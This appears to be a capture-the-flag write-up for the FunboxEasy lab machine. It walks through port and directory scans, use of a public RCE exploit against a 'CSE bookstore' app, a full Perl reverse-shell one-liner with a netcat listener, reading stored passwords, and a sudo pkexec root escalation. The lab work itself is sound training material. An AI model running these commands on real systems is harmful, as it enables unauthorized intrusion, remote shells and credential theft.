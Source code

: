 # FunboxEasy

## Nmap

```
nmap 192.168.178.111 -p- -sS -sV

Host is up (0.097s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
33060/tcp open  mysqlx?
```

Checking out port 80 we have the default install page for Apache 2.

![](<../../../.gitbook/assets/image (1575).png>)

Checking the source on this page reveals no interesting information. From here I executed dirsearch.py against the target machine.

```
sudo python3 dirsearch.py -u http://192.168.178.111/ -w /usr/share/seclists/Discovery/Web-Content/common.txt --full-url -t 75 
```

![](<../../../.gitbook/assets/image (1576).png>)

Checking the directory /store we are presented a web page for 'CSE bookstore'.

![/store](<../../../.gitbook/assets/image (1578) (1).png>)

Researching exploits on Google for 'CSE bookstore' we are presented with an exploit for Unauthenticated RCE. The exploit PoC has been linked below.

{% embed url="https://www.exploit-db.com/exploits/47887" %}

After downloading the PoC I executed it with the following command:

```
python3 47887.py http://192.168.178.111/store/
```

When prompted to launch a shell hit 'y'.

![](<../../../.gitbook/assets/image (1579).png>)

This shell stops us from properly navigating the target machine and will return us back to the current working directory when the command has finished executing. As such I checked what binary's are installed on the target machine so we can spawn a shell where we can navigate the target properly.

![](<../../../.gitbook/assets/image (1580).png>)

As per above `perl` is installed on the system. From here I started a `netcat` listener on my attacking machine.

```
sudo nc -lvp 80
```

![](<../../../.gitbook/assets/image (1581).png>)

I then executed the following command to gain a `perl` reverse shell.

```
perl -e 'use Socket;$i="192.168.49.178";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};'
```

![](<../../../.gitbook/assets/image (1582).png>)

Moving into the home directory and then into the user tony's home directory we have passwords.txt. Reading the contents of this text file shows the following information:

![](<../../../.gitbook/assets/image (1583).png>)

```
ssh: yxcvbnmYYY
gym/admin: asdfghjklXXX
/store: admin@admin.com admin
```

I then able to login with the `SSH` password for the user tony.

![](<../../../.gitbook/assets/image (1584).png>)

Checking `sudo -l` for `sudo` permissions we come into a multitude of entries.

![](<../../../.gitbook/assets/image (1585).png>)

As we can execute `sudo` as the user root without supplying a password here I will use `pkexec` to spawn a bash shell as root.

```
sudo pkexec /bin/sh
```

![](<../../../.gitbook/assets/image (1586).png>)
